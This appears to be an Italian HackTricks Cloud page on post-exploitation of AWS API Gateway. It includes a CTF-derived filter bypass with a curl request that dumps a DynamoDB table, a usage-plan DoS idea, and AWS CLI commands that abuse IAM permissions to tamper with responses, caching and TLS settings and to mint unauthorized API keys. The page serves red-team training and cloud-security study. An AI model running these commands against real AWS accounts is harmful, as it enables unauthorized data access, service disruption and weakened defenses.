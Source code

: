 # AWS - Sfruttare dopo l'accesso alla API Gateway

<details>

<summary><strong>Impara l'hacking AWS da zero a esperto con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Altri modi per supportare HackTricks:

* Se vuoi vedere la tua **azienda pubblicizzata su HackTricks** o **scaricare HackTricks in PDF** Controlla i [**PIANI DI ABBONAMENTO**](https://github.com/sponsors/carlospolop)!
* Ottieni il [**merchandising ufficiale PEASS & HackTricks**](https://peass.creator-spring.com)
* Scopri [**La Famiglia PEASS**](https://opensea.io/collection/the-peass-family), la nostra collezione di [**NFT esclusivi**](https://opensea.io/collection/the-peass-family)
* **Unisciti al** 💬 [**Gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi i tuoi trucchi di hacking inviando PR a** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## API Gateway

Per ulteriori informazioni controlla:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### Accesso alle API non esposte

Puoi creare un endpoint in [https://us-east-1.console.aws.amazon.com/vpc/home#CreateVpcEndpoint](https://us-east-1.console.aws.amazon.com/vpc/home?region=us-east-1#CreateVpcEndpoint:) con il servizio `com.amazonaws.us-east-1.execute-api`, esporre l'endpoint in una rete a cui hai accesso (potenzialmente tramite una macchina EC2) e assegnare un gruppo di sicurezza che permetta tutte le connessioni.\
Successivamente, dalla macchina EC2 sarai in grado di accedere all'endpoint e quindi chiamare l'API del gateway che non era stata esposta in precedenza.

### Ignora il passaggio del corpo della richiesta

Questa tecnica è stata trovata in [**questo writeup CTF**](https://blog-tyage-net.translate.goog/post/2023/2023-09-03-midnightsun/?\_x\_tr\_sl=en&\_x\_tr\_tl=es&\_x\_tr\_hl=en&\_x\_tr\_pto=wapp).

Come indicato nella [**documentazione AWS**](https://docs.aws.amazon.com/AWSCloudFormation/latest/UserGuide/aws-properties-apigateway-method-integration.html) nella sezione `PassthroughBehavior`, per impostazione predefinita, il valore **`WHEN_NO_MATCH`** , quando si controlla l'intestazione **Content-Type** della richiesta, passerà la richiesta al backend senza alcuna trasformazione.

Pertanto, nel CTF l'API Gateway aveva un modello di integrazione che stava **impedendo che il flag fosse esfiltrato** in una risposta quando veniva inviata una richiesta con `Content-Type: application/json`:

{% code overflow="wrap" %}
```yaml
RequestTemplates:
application/json: '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename=:moviename","FilterExpression": "not contains(#description, :flagstring)","ExpressionAttributeNames": {"#description": "description"},"ExpressionAttributeValues":{":moviename":{"S":"$util.escapeJavaScript($input.params(''moviename''))"},":flagstring":{"S":"midnight"}}}'
```
{% endcode %}

Tuttavia, inviare una richiesta con **`Content-type: text/json`** impedirebbe tale filtro.&#x20;

Infine, poiché l'API Gateway consentiva solo `Get` e `Options`, era possibile inviare una query arbitraria a dynamoDB senza alcun limite inviando una richiesta POST con la query nel corpo e utilizzando l'intestazione `X-HTTP-Method-Override: GET`:

{% code overflow="wrap" %}
```bash
curl https://vu5bqggmfc.execute-api.eu-north-1.amazonaws.com/prod/movies/hackers -H 'X-HTTP-Method-Override: GET' -H 'Content-Type: text/json'  --data '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename = :moviename","ExpressionAttributeValues":{":moviename":{"S":"hackers"}}}'
```
{% endcode %}

### Piani di Utilizzo DoS

Nella sezione **Enumerazione** puoi vedere come **ottenere il piano di utilizzo** delle chiavi. Se hai la chiave e questa è **limitata** a X utilizzi **al mese**, potresti **usarla e causare un DoS**.

La **Chiave API** deve solo essere **inclusa** all'interno di un **intestazione HTTP** chiamata **`x-api-key`**.

### `apigateway:UpdateGatewayResponse`, `apigateway:CreateDeployment`

Un attaccante con i permessi `apigateway:UpdateGatewayResponse` e `apigateway:CreateDeployment` può **modificare una Risposta del Gateway esistente per includere intestazioni personalizzate o modelli di risposta che rivelano informazioni sensibili o eseguono script dannosi**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESPONSE_TYPE="DEFAULT_4XX"

# Update the Gateway Response
aws apigateway update-gateway-response --rest-api-id $API_ID --response-type $RESPONSE_TYPE --patch-operations op=replace,path=/responseTemplates/application~1json,value="{\"message\":\"$context.error.message\", \"malicious_header\":\"malicious_value\"}"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Impatto Potenziale**: Divulgazione di informazioni sensibili, esecuzione di script dannosi o accesso non autorizzato alle risorse dell'API.

{% hint style="info" %}
Necessità di test
{% endhint %}

### `apigateway:UpdateStage`, `apigateway:CreateDeployment`

Un attaccante con i permessi `apigateway:UpdateStage` e `apigateway:CreateDeployment` può **modificare una fase esistente dell'API Gateway per reindirizzare il traffico verso una fase diversa o modificare le impostazioni di caching per ottenere accesso non autorizzato ai dati memorizzati nella cache**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
STAGE_NAME="Prod"

# Update the API Gateway stage
aws apigateway update-stage --rest-api-id $API_ID --stage-name $STAGE_NAME --patch-operations op=replace,path=/cacheClusterEnabled,value=true,op=replace,path=/cacheClusterSize,value="0.5"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Impatto Potenziale**: Accesso non autorizzato ai dati memorizzati nella cache, interruzione o intercettazione del traffico API.

{% hint style="info" %}
Necessità di test
{% endhint %}

### `apigateway:PutMethodResponse`, `apigateway:CreateDeployment`

Un attaccante con i permessi `apigateway:PutMethodResponse` e `apigateway:CreateDeployment` può **modificare la risposta del metodo di un metodo API Gateway REST esistente per includere intestazioni personalizzate o modelli di risposta che rivelano informazioni sensibili o eseguono script dannosi**.
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
STATUS_CODE="200"

# Update the method response
aws apigateway put-method-response --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --status-code $STATUS_CODE --response-parameters "method.response.header.malicious_header=true"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**Impatto Potenziale**: Divulgazione di informazioni sensibili, esecuzione di script dannosi o accesso non autorizzato alle risorse dell'API.

{% hint style="info" %}
Necessità di test
{% endhint %}

### `apigateway:UpdateRestApi`, `apigateway:CreateDeployment`

Un attaccante con i permessi `apigateway:UpdateRestApi` e `apigateway:CreateDeployment` può **modificare le impostazioni dell'API Gateway REST API per disabilitare il logging o cambiare la versione minima di TLS, indebolendo potenzialmente la sicurezza dell'API**.
```bash
API_ID="your-api-id"

# Update the REST API settings
aws apigateway update-rest-api --rest-api-id $API_ID --patch-operations op=replace,path=/minimumTlsVersion,value='TLS_1.0',op=replace,path=/apiKeySource,value='AUTHORIZER'

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**Impatto Potenziale**: indebolimento della sicurezza dell'API, potenzialmente consentendo l'accesso non autorizzato o l'esposizione di informazioni sensibili.

{% hint style="info" %}
Necessità di test
{% endhint %}

### `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, `apigateway:CreateUsagePlanKey`

Un attaccante con le autorizzazioni `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan` e `apigateway:CreateUsagePlanKey` può **creare nuove chiavi API, associarle a piani di utilizzo e poi utilizzare queste chiavi per accedere in modo non autorizzato alle API**.
```bash
# Create a new API key
API_KEY=$(aws apigateway create-api-key --enabled --output text --query 'id')

# Create a new usage plan
USAGE_PLAN=$(aws apigateway create-usage-plan --name "MaliciousUsagePlan" --output text --query 'id')

# Associate the API key with the usage plan
aws apigateway create-usage-plan-key --usage-plan-id $USAGE_PLAN --key-id $API_KEY --key-type API_KEY
```
**Impatto Potenziale**: Accesso non autorizzato alle risorse dell'API, aggirando i controlli di sicurezza.

{% hint style="info" %}
Necessità di test
{% endhint %}

<details>

<summary><strong>Impara l'hacking su AWS da zero a esperto con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Altri modi per supportare HackTricks:

* Se vuoi vedere la tua **azienda pubblicizzata su HackTricks** o **scaricare HackTricks in PDF** Controlla i [**PIANI DI ABBONAMENTO**](https://github.com/sponsors/carlospolop)!
* Ottieni il [**merchandising ufficiale PEASS & HackTricks**](https://peass.creator-spring.com)
* Scopri [**La Famiglia PEASS**](https://opensea.io/collection/the-peass-family), la nostra collezione di [**NFT esclusivi**](https://opensea.io/collection/the-peass-family)
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi i tuoi trucchi di hacking inviando PR a** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
